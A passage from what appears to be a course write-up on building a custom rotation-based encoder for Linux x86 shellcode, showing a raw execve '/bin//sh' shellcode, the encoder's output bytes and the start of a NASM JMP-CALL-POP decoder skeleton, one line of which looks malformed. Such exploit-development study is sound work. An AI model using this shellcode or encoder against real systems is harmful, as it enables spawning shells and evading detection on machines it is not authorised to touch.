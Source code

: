 If you pass the correct arguments, in encodes your shellcode and `asserts` that it can be decoded correctly:

```bash
echo "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\xb0\x0b\x89\xe3\x8d\x4c\x24\x08\x8d\x54\x24\x08\xcd\x80" > shellcode.bin

python3 encoder.py -i ./shellcode.bin -o /tmp/encoded.binc

# [+] Non-encoded shellcode (HEX): 31c050686e2f7368682f2f6269b00b89e38d4c24088d542408cd800a
# [+] Non-encoded shellcode length: 28 bytes
# [+] Rotations for even-index bytes: 2 (hex: 0x2)
# [+] Rotations for odd-index bytes: 168 (hex: 0xa8)
# [+] Least Significant Byte of Shellcode Length XOR-ed with ROT_EVEN: 30 (hex: 0x1e)
# [+] Most Significant Byte of Shellcode Length XOR-ed with ROT_ODD: 168 (hex: 0xa8)
# [+] Helper bytes for decoding (HEX): 02a81ea8

# [#] Encoding ...
# [+] Encoded shellcode (HEX): 02a81ea8ad21f5897ace3d89fbce2a83bb512368196cf2c5e36cf4c5e32cc1eb
# [+] Encoded shellcode length: 32 bytes
# [+] Assembly data: 0x2,0xa8,0x1e,0xa8,0xad,0x21,0xf5,0x89,0x7a,0xce,0x3d,0x89,0xfb,0xce,0x2a,0x83,0xbb,0x51,0x23,0x68,0x19,0x6c,0xf2,0xc5,0xe3,0x6c,0xf4,0xc5,0xe3,0x2c,0xc1,0xeb

# [#] Decoding ...
# [+] Decoded shellcode (HEX): 31c050686e2f7368682f2f6269b00b89e38d4c24088d542408cd800a
```

<figcaption class="figure-caption">Encoding/Decoding shellcode</figcaption>

The line starting with **Assembly data:** contains the bytes you can copy-paste into the NASM skeleton file and use them with the `JMP-CALL-POP` technique:

```bash
# [+] Assembly data: 0x2,0xa8,0x1e,0xa8,0xad,0x21,0xf5,0x89,0x7a,0xce,0x3d,0x89,0xfb,0xce,0x2a,0x83,0xbb,0x51,0x23,0x68,0x19,0x6c,0xf2,0xc5,0xe3,0x6c,0xf4,0xc5,0xe3,0x2c,0xc1,0xeb
```

## Assembly Decoder

The first step is to prepare the skeleton (i.e. a generic template) of the decoder.

I used the same shown in the `Episode 31` of the course, employed in conjunction with the `Insertion` encoder:

```nasm
; Author: Robert C. Raducioiu (rbct)

global _start

section .text

_start:

    xor ebx
    mul ebx

    jmp short CallShellcode

Shellcode:

    pop esi

Decode:

    ; ...

    jmp short Decode
```